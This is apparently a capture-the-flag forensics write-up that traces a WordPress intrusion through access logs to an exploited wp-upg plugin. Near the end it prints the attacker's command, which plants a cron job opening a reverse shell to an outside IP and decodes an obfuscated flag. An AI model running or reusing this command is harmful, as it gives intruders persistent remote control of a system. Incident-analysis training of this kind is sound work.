 # Explanation
We are given the following file:
* `access.log`: Wordpress server logs.

In the log file, notice there are several requests related to a WordPress website.

# Solution
By slowly analyzing the logs, `82.179.92.206` has performed the most requests out of the IP addresses, indicating a suspicious activity. So we can find the amount of times an IP addresses was involved by the number of requests.
```
cat access.log | cut -d " " -f 1 | sort | uniq -c
```

![vul](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/c8fa44b3-133d-4df6-b276-c06c98c9778d)

By reading the instructions, they mentioned that the attacker may have exploited a vulnerability in a plugin. 
Hence, the search can be easier by filtering the logs using "wp-content/plugins/" which is the directory storing all the plugins. Requests from 82.179.92.206 with response status code of 200 are the key to identifying the vulnerability, as these can reveal whether the attacker's attempts were successful. 

By analyzing the logs, notice how some requests suggest that the attacker has exploited the `wp-upg` plugin since the plugin was responding with 200 OK messages. Additionally, `wp-upg` has certain vulnerabilities such as CVE-2022-4060 and CVE-2023-0039

![vul2](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/e0aac332-d852-458d-a5b6-39ac78ff7369)

After identifying the vulnerable plugin, the logs are analyzed further and another important log was found. These requests indicate the attacker was attempting to execute arbitrary commands on the system.

![vul3](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/9a45e2a9-b710-48e1-b087-f62fd4dc2986)

One of the requests creates a cron job named `testconnect` that connects to a Command and Control (CnC) server and prints the flag.

![vul4](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/ccbeef90-e54d-42ba-b1e9-66a5a2495552)

![vul5](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/d26940c4-9311-499f-9468-c29b2b5b990f)

At this point, I was stuck and required help from the HTB writeup. I found out that to retrieve the flag was to decode the URL using the `testconnect` cron job again. This can be done using the command:

```
echo "sh -i >& /dev/tcp/82.179.92.206/7331 0>&1" > /etc/cron.daily/testconnect && Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo $Mz$Tz$Vz$az$Kz$Oz|base64 -d|rev
```

![vul6](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/a9bbfa96-a62f-49aa-8d85-7ba1410c8684)
